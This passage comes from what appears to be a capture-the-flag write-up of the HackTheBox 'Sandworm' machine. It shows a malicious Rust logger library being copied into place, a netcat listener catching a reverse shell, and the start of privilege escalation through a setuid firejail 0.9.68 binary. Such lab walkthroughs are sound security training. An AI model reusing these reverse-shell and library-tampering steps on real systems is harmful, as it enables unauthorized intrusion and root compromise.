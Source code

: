 ```rust
    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }
}
silentobserver@sandworm:/tmp/curiosity-hackthebox$ 
silentobserver@sandworm:/tmp/curiosity-hackthebox$ cp /tmp/curiosity-hackthebox/lib.rs /opt/crates/logger/src/lib.rs
```

- We then replaced the original `lib.rs` in the `logger` library with our malicious version.

```shell
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 445
listening on [any] 445 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.11.218] 34782
bash: cannot set terminal process group (1616804): Inappropriate ioctl for device
bash: no job control in this shell
atlas@sandworm:/opt/tipnet$ 
```

- After a short period, we successfully established a reverse shell connection.

```shell
atlas@sandworm:/opt/tipnet$ cat /etc/passwd | grep root
root:x:0:0:root:/root:/bin/bash
```

Now, we had the ability to employ the `grep` command, which was previously inaccessible to us. This served as confirmation that we had effectively escaped the sandboxed environment.

In essence, we broke free from the restricted environment by exploiting the compromised `logger` library to execute commands with elevated privileges.

# PRIVILEGE ESCALATION TO ROOT

```shell
atlas@sandworm:~$ id
uid=1000(atlas) gid=1000(atlas) groups=1000(atlas),1002(jailer)  
atlas@sandworm:~$ ls -al /usr/local/bin/firejail 
-rwsr-x--- 1 root jailer 1777952 Nov 29  2022 /usr/local/bin/firejail
```

We observed that the user `atlas` belonged to the `jailer` group and had execution permission for the `firejail` binary.

```shell
atlas@sandworm:~$ firejail --version
firejail version 0.9.68

Compile time support:
        - always force nonewprivs support is disabled
        - AppArmor support is disabled
        - AppImage support is enabled
        - chroot support is enabled
        - D-BUS proxy support is enabled
        - file transfer support is enabled
        - firetunnel support is enabled
        - networking support is enabled
        - output logging is enabled
        - overlayfs support is disabled
        - private-home support is enabled
        - private-cache and tmpfs as user enabled
        - SELinux support is disabled
        - user namespace support is enabled
        - X11 sandboxing support is enabled
```
